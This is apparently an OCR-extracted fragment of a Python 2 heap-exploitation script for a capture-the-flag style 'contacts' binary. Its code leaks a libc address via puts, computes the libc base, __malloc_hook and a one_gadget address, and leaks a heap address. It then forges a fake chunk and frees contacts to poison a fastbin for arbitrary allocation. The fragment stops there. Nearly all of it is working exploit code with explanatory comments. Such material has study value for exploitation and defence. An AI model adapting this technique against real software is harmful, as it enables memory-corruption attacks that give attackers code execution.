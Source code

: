 ```python
    print leaked_puts_address
    leaked_puts_address = int(''.join([leaked_puts_address[x: x + 2] for x in range(0, len(leaked_puts_address), 2)][::-1][:6]), 16)
    
    """ Calculate the addresses in libc that are relevant for us."""
    libc_base = leaked_puts_address - libc.symbols['puts']
    __malloc_hook_address = libc_base + libc.symbols['__malloc_hook']
    one_gadget = libc_base + one_gadget_offset
    print '-'*75
    print 'Leaked puts address:', hex(leaked_puts_address)
    print 'Libc base:', hex(libc_base)
    print '__malloc_hook:', hex(__malloc_hook_address)
    print 'One gadget:', hex(one_gadget)
    print '-'*75
    
    """ Same as first leak. This time we are leaking an address in the heap."""
    second_leak_name = 'LeakHeap' + p64(contacts_addr)[:-1]
    add_contact(second_leak_name)
    set_bio(second_leak_name, '\x00'*15)
    del_contact(second_leak_name)
    add_contact('D'*15)
    add_contact('E'*15)
    
    """ Print the details of our contacts. The last contact we added will have its bio point to the contacts array - heap address leak."""
    output = display().split('\n')[contacts_count - 1]
    print output
    leaked_heap_address = (output[output.find('- ') + len('- '):].rstrip('\n')).encode('hex')
    leaked_heap_address = int(''.join([leaked_heap_address[x: x + 2] for x in range(0, len(leaked_heap_address), 2)][::-1][:6]), 16)
    
    """ Used a debugger locally to find the distance between the first block (the one we are leaking) and our forged chunk."""
    target_heap_addr = leaked_heap_address + (0x2b0 - 0x250)
    print '-'*75
    print 'Leaked heap address:', hex(leaked_heap_address)
    print 'Target:', hex(target_heap_addr)
    print '-'*75
    
    """ Same idea as the previous leaks. This time instead of a leak we are inserting an address we want to free (and later on get it back
        from malloc)."""
    my_heap_chunk = 'FakeChnk' + p64(target_heap_addr)[:-1]
    add_contact(my_heap_chunk)
    set_bio(my_heap_chunk, '\x00'*15)
    del_contact(my_heap_chunk)
    add_contact('G'*15)
    add_contact('H'*15)
    
    add_contact('I'*15) # This contact is allocated so we can set its bio with our payload.

    """ By deleting this contact we free our fake heap chunk and can get it back by allocating a 0x70 sized chunk (the header we gave it
        stated a size of 0x81 which is 0x70 + header size (0x10) and prev_in_use bit on)."""
    del_contact('H'*15)
    
    """ After deleting this contact we have a chunk with the size of 0x70 (allocation of 0x60) in it's fastbin.
        We can overwrite its "next" pointer using our forged heap chunk to get back a pointer to a memory of our choosing (as long as its
        header fits the current fastbin)."""
    del_contact('Y'*15)
    
```
